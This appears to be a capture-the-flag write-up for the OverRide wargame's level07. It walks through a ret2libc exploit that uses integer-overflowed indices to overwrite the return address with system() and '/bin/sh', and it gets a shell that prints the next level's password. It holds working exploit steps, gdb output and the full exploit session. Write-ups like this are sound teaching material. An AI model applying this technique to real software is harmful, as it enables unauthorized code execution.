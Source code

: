 In this level, we have a program that allows us to store/read into a local variable local_1bc [100] using two functions read_number(int param_1) and store_number(int param_1).

For this level, we will use the ret2libc method to achieve our goals. Here is an explanatory link about this method -> https://beta.hackndo.com/retour-a-la-libc/
We will use the store_number(int param_1) function to write our instructions into EIP and then retrieve our flag. So, objective 1: find EIP, objective 2: determine what we will write into EIP.


When disassembling the code, we can see that the local variable into which we write or read is located at esp+0x24.
```asm
0x080488e1 <+446>:   jne    0x80488f8 <main+469>
0x080488e3 <+448>:   lea    0x24(%esp),%eax
0x080488e7 <+452>:   mov    %eax,(%esp)
0x080488ea <+455>:   call   0x8048630 <store_number>
```
Therefore, we can retrieve the beginning of the buffer on the stack. 

```
Breakpoint 2, 0x080488e1 in main ()
(gdb) x/x $esp+0x24
0xffffd554:     0x00000000
```

We know that main returns to 0x080489f1 using gdb, we can find where this instruction is located in the stack.

```
0x080489f1 <+718>:   ret
```

```
Breakpoint 3, 0x080489f1 in main ()
(gdb) x/x $esp
0xffffd71c:     0xf7e45513
```

By subtracting these two addresses, we find 0x1C8, which we will divide by 4 since we move in blocks of 4, and we find the index that will allow us to write into EIP. 114

```
0xffffd71c - 0xffffd554 = 0x1C8 (456)
index = 114 because 456 / 4 = 114
```

Now let's retrieve the address of system and the string "/bin/sh".

```
(gdb) p system
	$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

(gdb) find __libc_start_main,+99999999,"/bin/sh"
	0xf7f897ec
```

The decimal representation of these two addresses gives us
```
system = 0xf7e6aed0 = 4159090384
"/bin/sh" = 0xf7f897ec = 4160264172
```

Now we need to address a problem, which is as follows: the number corresponding to the index where we are going to write must not be a multiple of 3. If it is, then we get an error message.

```c
printf(" Index: ");
uVar2 = get_unum();
if ((uVar2 % 3 == 0) || (uVar1 >> 0x18 == 0xb7)) {
  puts(" *** ERROR! ***");
  puts("   This index is reserved for wil!");
  puts(" *** ERROR! ***");
  uVar3 = 1;
}
```

And as luck would have it, 114 is a multiple of 3. So what we're going to do is trigger an integer overflow using this formula: (2**32 / 4) + 114.
We divide by 4 because in the program, the number of index is multiplied by 4.
```c
*(uint *)(uVar2 * 4 + param_1) = uVar1;
```

```python
(2**32 / 4) + 114 = 1073741938
>>> 1073741938 % 3 == 0
False
```
(2**32 / 4) + 114 = 1073741938, and this last number is not a multiple of 3, which is perfect. 
But we also need to write into EIP + 2 which will store the /bin/sh, and unfortunately...

```python
>>> 1073741940 % 3 == 0
True
```

However, in the case where we overflow a second time, we can retrieve both indexes without them being multiples of 3

```python
2 * (2**32 / 4) + 114 = 2147483762
>>> 2147483762 % 3 == 0
False
>>> 2147483764 % 3 == 0
False
```

```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 2147483762
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 2147483764
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```